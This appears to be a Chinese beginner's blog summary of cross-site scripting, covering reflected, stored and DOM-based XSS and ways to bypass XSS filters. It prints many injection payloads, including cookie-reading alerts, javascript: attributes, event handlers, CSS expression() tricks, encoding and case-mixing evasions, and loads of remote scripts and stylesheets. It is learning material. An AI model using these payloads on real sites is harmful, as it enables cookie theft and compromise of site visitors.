



## XSS初学总结

### 0x00 引言
学习Web安全，必然是从SQL注射和XSS开始的，毕竟貌似比较基础。学习了几天，没挖出什么洞，只好先总结一下。。。
名言金句：见框就插、改数据包不可见部分、改URL参数、js分析。

### 0x01 XSS分类
1、反射型跨站脚本(Reflected Cross-site Scripting)。主要是将恶意脚本附加到URL地址的参数中，原理如下：发现存在反射XSS的URL——根据输出点的环境构造XSS代码——进行编码等迷惑手法——发送给受害人——受害打开后，执行XSS代码——完成攻击(获取cookies、url、浏览器信息、IP等)。反射型XSS的特点是只在用户单击时触发，且只执行一次，故也称作非持久型跨站。
例如：
```
http://www.test.com/search.php?key="><script>alert("XSS")</script>
http://www.test.com/view.shtml?query=%3Cscript%3Ealert%281%29%3C/script%3E
http://www.test.com/logout.asp?out=1&url=javascript:alert(document.cookie)
```
```seq
Title: 反射型XSS攻击流程
攻击者->受害者: XSS链接&恶意脚本
受害者->服务器: 请求
服务器->>受害者: 响应
```

2、持久型跨站脚本(Persistent Cross-site Scripting)。攻击者事先将恶意Javascript代码上传或储存到漏洞服务器上，只要受害者浏览包含此恶意代码的页面就会中招。一般出现在留言、评论等交互处。
```seq
Title: 持久型XSS攻击流程
攻击者->服务器: 注入恶意代码
受害者->服务器: 请求
服务器->>受害者: 响应
```

3、DOM XSS。前面两种XSS一般出现在服务器端代码中，而DOM-Based XSS是基于DOM文档对象模型，受客户端浏览器代码的影响。这一漏洞的前提是，一个网页以不安全的方式使用`document.location`、`document.URL`、`document.referrer`等对象获取数据。
举个例子，有如下HTML代码：
```
<html>
  <head>
    <title>Welcome!</title>
  </head>
  <body>
    <p>Hi</p>
    <script>
      var pos=document.URL.indexOf("name=")+5;
      document.write(document.URL.substring(pos,document.URL.length));
    </script>
  </body>
</html>
```

通常，这个欢迎网页的请求是这样的：
`http://www.test.com/welcome.html?name=lihua`
然而，如果这个请求是这样的：
`http://www.test.com/welcome.html?name=<script>alert(document.cookie)</script>`
这就导致了XSS，弹出了cookie。

4、最后贴一张比较图。


### 0x02 XSS构造剖析
现实中大多数的网站都有一个XSS Filter，用来分析用户提交的输入，并消除潜在的跨站脚本攻击。XSS Filter一般是基于黑白名单的安全过滤策略，于是就存在被绕过的可能。
１、利用<>标记注射html/javascript。
如：`<script>alert('XSS'); </script>`
２、利用html标签属性值执行XSS。很多html标记中的属性都支持javascript:[code]伪协议，可以尝试这些属性：`href`、`lowsrc`、`bgsound`、`background`、`value`、`action`、`dynsrc`等。
举个例子：
`<table background="javascript:alert('xss')"></table>`
``
３、空格回车Tab。javascript结束一条语句的方式有两种，一种是分号`;`，另一种是当javascript引擎确定一个句子完整，而这一行的结尾有换行符。
于是可以构造如下：
```

```
４、进行各种转码。常用的URL编码，unicode编码，HTML编码，CSS编码等。
５、产生事件法。javascript和html通过事件来进行交互，事件能让javascript代码运行，也就能执行跨站脚本。
例如：
``
`<input type="button" value="click me" onclick="alert('XSS')"/>`
６、利用CSS跨站。这一方法灵活多变而且隐蔽，可以嵌入到html中，如：
```
<div style="background-image:url(javascript:alert('XSS'))">
<style>
  body {background-image: url("javascript:alert('XSS')");}
</style>
```
也可以从其他文件中引用：
`<link ret="stylesheet" href="http://www.test.com/attack.css">`
`<style type='text/css'>@import url(http://www.test.com/attack.css);</style>`
还可以用expression执行javascript：
```
<div style="width: expression(alert('XSS'));">

<style>
  body {background-image: expression(alert('XSS'));}
</style>
```
７、扰乱过滤规则。
大小写转换法：`<sCrIpt>alert('XSS')</ScripT>`
干扰字符污染法：`<div style="wid/****/th: expre/*XSS*/ssion(alert('XSS'));">`
字符编码法：`<script%20src%3D"http%3A%2F%2F0300.0250.0000.0001"><%2Fscript>`
拼凑法：`<scr<script>rip>alalertert</scr</script>rip>`

### 0x03 结尾
这个坑就先填到这儿，以后技术有提高再来补充。。。

参考资料：
《XSS跨站脚本攻击剖析与防御》
[freebuf/black-hole](http://www.freebuf.com/author/black-hole)
[XSS_Filter_Evasion_Cheat_Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

